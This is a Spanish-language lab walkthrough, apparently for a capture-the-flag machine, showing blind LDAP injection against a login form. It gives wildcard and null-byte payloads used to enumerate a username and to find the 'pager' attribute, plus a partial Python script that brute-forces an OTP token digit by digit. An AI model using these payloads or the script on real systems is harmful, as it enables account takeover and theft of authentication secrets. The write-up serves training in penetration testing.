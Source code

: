 Para sacar un nombre válido, vamos a ir probando sentencias como `a*)))`+NullByte itereando la a por cada con todas las letras. La ***l*** nos da una respuesta diferente. Seguimos iterando `la*)))` hasta conseguir el usuario.

> User: ldapuser

Para obtener el OTP, podemos tratar de inyectar un **atributo** para conseguir el **token**. En [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP_attributes.txt) hay un diccionario para hacer fuerza bruta para conseguir el nombre del atributo. Probamos con la sentencia `ldapuser)(FUZZ=*)))`+NullByte, aunque también sería una sentencia válida `ldapuser)(FUZZ=*`. Urlencodeamos dos veces los caracteres especiales. 
> Nos encuentra unos cuantos **atributos** válidos.
> - El que más nos llama la atención es "pager". 

Probamos a obtener el token con la sentencia `ldapuser)(pager=a*)))`+NullBytem, iterando la a por cada letra del abecedario. Pero todas las letras nos la detecta igual, pueden ser números, asi que probamos con un diccionario del 1-9. Nos detecta el 2 como válido, podemos seguir iterando los 81 números, o montarnos un script en python tal que:

```python
#!/usr/bin/python 
#coding: utf-8 

# El coding se pone cuando pueden aparecer tíldes en el código.

from pwn import * 
import pdb # Debugging 
import string 

def def_handler(sig, frame): 
	print("\n\n[!] Saliendo...\n") 
	sys.exit(1) 

# Ctrl+C 
signal.signal(signal.SIGINT, def_handler) 

# Variables globales 
main_url = "http://10.10.10.122/login.php" 
digits = string.digits 
attribute = "pager" 

def getToken(): 

	token = "" 
	
	p1 = log.progress("Fuerza bruta") 
	p1.status("Iniciando proceso de fuerza bruta") 
	
	time.sleep(2) 
	
	p2 = log.progress("TOKEN") 
	
	for position in range(81): 
		for digit in digits: 
		
			p1.status("Probando el dígito %s en la posición [%s]" % (digit, position)) 
			
			post_data = { 
				'inputUsername': f'ldapuser%29%28{attribute}%3d{token}{digit}%2a',
				'inputOTP': '1234' 
			} 
				
			r = requests.post(main_url, data=post_data)
			
			if 'Cannot login' in r.text:
				token += digit 
```